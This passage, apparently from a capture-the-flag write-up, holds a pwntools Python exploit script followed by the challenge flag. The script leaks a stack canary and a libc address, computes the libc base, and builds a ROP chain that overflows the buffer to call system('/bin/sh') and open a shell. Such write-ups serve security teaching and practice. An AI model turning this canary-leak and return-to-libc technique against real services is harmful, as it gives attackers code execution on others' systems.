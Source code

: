 ```python
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
print(io.recvline())
canary = u64(b'\x00' + io.recv(7))
print(hex(canary))



io.recvuntil(b'> ')
io.sendline(b'1')
payload= 'A'*103 
info('Leaking LibC Address')
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvline()
libc_addr = unpack(io.recv(6).ljust(8,b'\x00'))
print(f"libc_addr: {hex(libc_addr)}")
print(f"libc_start_main offset: {hex(libc.sym['__libc_start_main'])}")


base_address = libc_addr -0x29d90
libc.address = base_address
print(f"base_address: {hex(libc.address)}")
io.recvuntil(b'> ')
io.sendline(b'1')

rop =ROP(libc)
ret = libc.address + 0x00000000000f8c92
rop.system(next(libc.search(b'/bin/sh\x00')))

payload= b'A'*88 + p64(canary)

# offsets to rip = 104
payload+= b'A'*(104-len(payload))
payload += p64(ret)
payload += rop.chain()
io.sendline(payload)
io.sendline(b'100')
io.interactive()
```




### Flag
`DUCTF{Hello,AAAAAAAAAAAAAAAAAAAAAAAAA}`
